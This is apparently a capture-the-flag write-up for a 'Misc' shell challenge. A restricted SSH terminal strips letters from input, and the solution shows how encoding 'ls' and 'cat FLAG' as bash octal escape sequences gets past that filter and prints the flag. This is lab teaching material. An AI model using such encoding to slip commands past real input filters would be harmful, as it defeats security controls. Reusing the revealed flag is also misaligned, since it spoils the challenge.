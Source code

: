 
# Challenge #04: Gunslinger Joe's private Terminal

## Description

Author: cutz
Category: Misc

Gunslinger Joe has a pretty bad memory and always forgets the password for
his private terminals! That's why he always uses his username as password but
also makes sure that absolutely no one else who knows his name can interact
with his secure terminal. Wouldn't it be super embarrassing for him to prove
him wrong?

SSH: gunslinger_joe@wildwildweb.fluxfingers.net
PORT: 1403

## Solution

Author: Sam Thomas / xorpse

After logging in and attempting to enter a few commands into the shell, we see
that characters in `[A-Za-z]` are being stripped from the input before being
interpreted:

```{.bash}
$ ls
$ echo "hello"
: : command not found
$ echo "12345"
: 12345: command not found
$ $?
: 0: command not found
```

Since digits (`[0-9]`) are not being stripped, we could try to encode the command
using escape sequences -- it turns out octal as a number system is perfectly suited
for this. The command `ls` can be encoded as: `$'\154'$'\163'` and gives:

```{.bash}
$ $'\154'$'\163'
FLAG  terminal
```

Now, it's simply a matter of performing `cat FLAG`; which can be encoded as:
`$'\143'$'\141'$'\164'  $'\106'$'\114'$'\101'$'\107'`

...and gives us:

```{.bash}
$ $'\143'$'\141'$'\164'  $'\106'$'\114'$'\101'$'\107'
flag{joe_thought_youd_suck_at_bash}
```
